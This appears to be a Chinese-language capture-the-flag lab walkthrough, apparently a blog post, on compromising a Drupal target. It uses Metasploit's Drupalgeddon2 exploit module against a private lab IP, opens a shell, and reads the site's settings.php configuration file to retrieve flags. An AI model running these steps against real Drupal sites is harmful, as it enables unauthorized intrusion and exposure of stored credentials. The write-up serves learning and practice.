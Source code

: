 我们知道了CMS的类型和版本，就可以从cms的角度入手（这在实战中也非常常见，通过历史遗留漏洞成为突破口）

我们可以利用msfconsole查找

![image-20250425172533378](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192319823-637881312.png)

`search Drupal`

![image-20250425172710629](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192320197-374408912.png)

我们用18年的excellent的漏洞

`use exploit/unix/webapp/drupal_drupalgeddon2`

![image-20250425172746893](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192320591-424324197.png)

`show options`查看一下我们需要的参数，其中yes为必填项

![image-20250425172920367](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192320925-2064051676.png)

先设置一下rhosts（设置为目标机器）

`set rhosts 192.168.190.137`

![image-20250425173011924](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192321283-883924245.png)

设置完后我们可以再进行`show options`，养成一个好习惯，看看有没有设置成功。

然后直接`run`

![image-20250425173142312](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192321591-797174206.png)

当出现连接成功，就表示OK了

之后就是我们的后渗透了

先`shell`一下执行一下我们的linux的命令

`ls`

![image-20250425173253655](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192322042-590626810.png)

可以看到存在flag1.txt

`Every good CMS needs a config file - and so do you.`

这句话翻译一下就是 每一个好的CMS都需要一个配置文件

![image-20250425173349287](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192322368-1962951207.png)

find / -name settings.php

![image-20250425173558842](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192322695-430661442.png)

cat /var/www/sites/default/settings.php

查看一下，获得flag2

![image-20250425173642577](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192323023-53313429.png)
